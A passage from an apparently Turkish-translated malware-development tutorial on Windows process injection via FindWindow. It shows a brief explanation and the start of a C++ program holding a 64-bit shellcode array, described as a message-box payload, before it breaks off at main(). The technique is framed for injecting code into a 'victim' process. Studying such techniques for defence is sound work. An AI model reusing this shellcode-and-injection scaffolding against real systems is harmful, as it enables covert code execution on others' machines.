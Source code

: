 \newpage
\subsection{30. FindWindow ile süreç enjeksiyonu. Basit C++ örneği.}

﷽

![injection](./images/43/2022-03-15_11-10.png){width="80%"}    

Bu yazı, Win32 API işlevlerinden biri üzerine yaptığım araştırmaların bir sonucudur.    

Önceki [yazılarımdan](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) birinde, enjeksiyon aracım için bir süreci isimle nasıl bulacağımı yazmıştım.    

Süreç veya DLL enjeksiyonu yazarken, sistemde çalışan tüm pencereleri bulmak ve örneğin yönetici tarafından başlatılan bir sürece enjekte etmeye çalışmak güzel olabilir.    

En basit durumda, kurbanımız olacak bir sürecin herhangi bir penceresini bulabiliriz.    

### pratik örnek

Bu tekniğin akışı basittir. Kaynak kodu inceleyelim:      

```cpp
/*
 * hack.cpp - classic process injection 
 * via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

```